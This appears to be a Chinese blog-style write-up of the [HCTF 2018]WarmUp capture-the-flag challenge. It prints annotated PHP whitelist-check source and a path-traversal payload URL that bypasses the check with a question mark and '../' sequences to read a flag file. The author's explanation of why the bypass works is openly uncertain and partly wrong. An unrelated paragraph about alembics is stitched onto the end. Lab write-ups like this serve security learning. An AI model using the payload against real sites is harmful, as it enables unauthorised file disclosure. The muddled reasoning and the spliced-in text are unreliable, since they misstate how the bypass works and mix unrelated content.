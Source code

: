 ```yaml
---
title: [HCTF 2018]WarmUp
categories:
- General
- External sources
feature_image: "https://picsum.photos/2560/600?image=872"

---
```




### 2021.10.16

### [HCTF 2018]WarmUp

F12发现一个php文件被注释掉了

通过http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/source.php查看源代码:

![image-20211016175531793](C:\Users\PHY\AppData\Roaming\Typora\typora-user-images\image-20211016175531793.png)

开始查函数：

- isset：检测目标变量的值是否为NULL，如果是NULL返回False
- is_string：检测目标变量是否为字符串，如果是，返回True
- echo：相当于输出
- in_array(search,array,type)：搜索数组中是否存在指定的值，存在输出True（如果 *search* 参数是字符串且 *type* 参数被设置为 TRUE，则搜索区分大小写。）
- mb_substr( string $str , int $start [, int $length = NULL [, string $encoding = mb_internal_encoding() ]] ) : string      :划重点划重点了

![image-20211016180918301](C:\Users\PHY\AppData\Roaming\Typora\typora-user-images\image-20211016180918301.png)

- mb_strpos(haystack,needle)  :返回要needle在haystack字符串中首次出现的位置

- $_REQUEST:获取以POST方法和GET方法提交的数据

分析代码

cehckFile这个函数进行了 3次白名单检测、 2次问号过滤、一次URL解码

    class emmm
        {
            public static function checkFile(&$page)
        {
            //白名单列表
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            //isset()判断变量是否声明is_string()判断变量是否是字符串 &&用了逻辑与两个值都为真才执行if里面的值
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it A";
                return false;
            }
            //检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($page, $whitelist)) {
                return true;
            }
            //过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            
            //由此开始******************************************
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')//返回$page.?里面?号出现的第一个位置
            );
    
             //第二次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            //url对$page解码
            $_page = urldecode($page);
    
            //第二次过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            //第三次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

```
payload：
http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=hint.php?../../../../../ffffllllaaaagggg
```

理解：

找到flag的关键是找到 ”ffffllllaaaagggg“ 这个文件，分析代码得知其进行了白名单和？的过滤。想要执行ffffllllaaaagggg这个文件，就要先得到index.php的权限（自我理解，有待考证），网址的载入是从后往前的（？），所以从后往前的第一个”？“被第一次问号过滤过滤掉。然后白名单过滤再将hint.php过滤掉，所以真正执行的网址其实是http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=../../../../../ffffllllaaaagggg

从而拿到flag

注：关于为什么只需要跳过一次问号过滤和一次白名单过滤是因为从 $_page = mb_substr(，才开始真正的过滤输入的网址



<!-- more -->

Retorts have the "cap" and the "cucurbit" made into one. The anbik is also called the raʾs (head) of the cucurbit. The liquid in the cucurbit is heated or boiled; the vapour rises into the anbik, where it cools by contact with the walls and condenses, running down the spout into the receiver. A modern descendant of the alembic is the pot still, used to produce distilled beverages.

_Originally from [Alembic - Wikipedia](https://en.wikipedia.org/wiki/Alembic)_